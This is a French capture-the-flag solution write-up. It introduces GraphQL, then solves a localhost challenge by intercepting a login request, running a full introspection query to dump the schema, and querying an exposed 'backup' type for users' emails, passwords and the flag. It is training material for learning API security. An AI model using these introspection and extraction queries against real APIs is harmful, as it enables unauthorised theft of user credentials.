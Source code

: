 ```yaml
---
title: Challenge GraphQL, correction
---
```


#web #api #graphql
## Qu'est-ce que GraphQL ?

**GraphQL** est un langage de requête pour les API créé par Facebook en 2012 et devenu opensource en 2015.

**GraphQL** utilise un **schéma** pour décrire les types de données disponibles dans l'API, ainsi que les **relations** entre ces types.
Les requêtes **GraphQL** peuvent également inclure des arguments pour filtrer, trier ou paginer les données.

En résumé, GraphQL est une technologie de requête flexible et puissante qui permet aux clients de récupérer des données spécifiques à partir d'une API de manière efficace et contrôlée.

## Quelle est la différence avec les API REST ?

La principale différence entre **GraphQL** et **REST** est que **REST** est basé sur une architecture de ressources, où chaque **endpoint** correspond à une ressource.
Voici des exemples d'endpoints REST :
- `/users`
- `/articles`
- `/login`

GraphQL est basé sur une architecture de requête, où les clients spécifient exactement les données qu'ils souhaitent récupérer.

Dans **GraphQL**, il n'y a qu'un seul endpoint, par exemple `/graphql`, on peut spécifier exactement les données que l'on veut récupérer, ce qui évite l'**under/over fetching** des APIs REST.
De plus, le typage fort des données permet d'avoir un code maintenable et une API facile à consommée côté client.

## Énoncé du challenge

Vous disposez d'un site web à l'adresse `http://localhost:3000/`.

L'objectif de ce challenge est de découvrir une faille de sécurité sur une API GraphQL.
Vous devez trouver le mot de passe d'un utilisateur.

## Correction du challenge

Lorsque l'on lance le challenge, on peut accéder à ``http://localhost:3000`` et ``http://localhost:5000`` qui correspondent respectivement au client et au serveur.

On se rends donc sur le client, dans notre navigateur :
![[attachments/graphql_1.png]]

On tente quelques connexions avec des credentials arbitraires du style `admin@exemple.com:admin` ou `test@exemple.com:password`, mais rien ne fonctionne.

On voit ce genre de message d'erreur :
![[attachments/graphql_2.png]]

Pour essayer d'avancer, on ouvre **Burp Suite** et on intercepte une requête de connexion :
![[attachments/graphql_3.png]]

On voit que c'est une **API GraphQL**.
On envoie la requête dans le repeater et on va pouvoir faire une **__introspection__** pour dump le schéma de l'API :

```json
{"query":
"{__schema{queryType{name},mutationType{name},types{kind,name,description,fields(includeDeprecated:true){name,description,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},isDeprecated,deprecationReason},inputFields{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue},interfaces{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},enumValues(includeDeprecated:true){name,description,isDeprecated,deprecationReason,},possibleTypes{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}}},directives{name,description,locations,args{name,description,type{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name,ofType{kind,name}}}}}}}},defaultValue}}}}\n      "}
```

![[attachments/graphql_4.png]]
On voit que l'introspection à fonctionner.
On la copie dans [GraphQL Voyager](https://ivangoncharov.github.io/graphql-voyager/) pour pouvoir l'interpréter facilement :
![[attachments/graphql_5.png]]

On voit un query intéressant avec le schéma ``Backup``, qui permettrais de récupérer un flag + un compte utilisateur (ou admin ?).
On retourne donc dans **Burp Suite**, et on modifie notre requête HTTP avec ce payload :
```json
{
	"query": "query { backup {  id, flag, name, email, password } }"
}
```
Ceci nous permet de récupérer les champs **id**, **flag**, **email**, **password** :

![[attachments/graphql_6.png]]

Vous pouvez donc valider le challenge avec le flag : ``flag{graphql_is_awesome}``.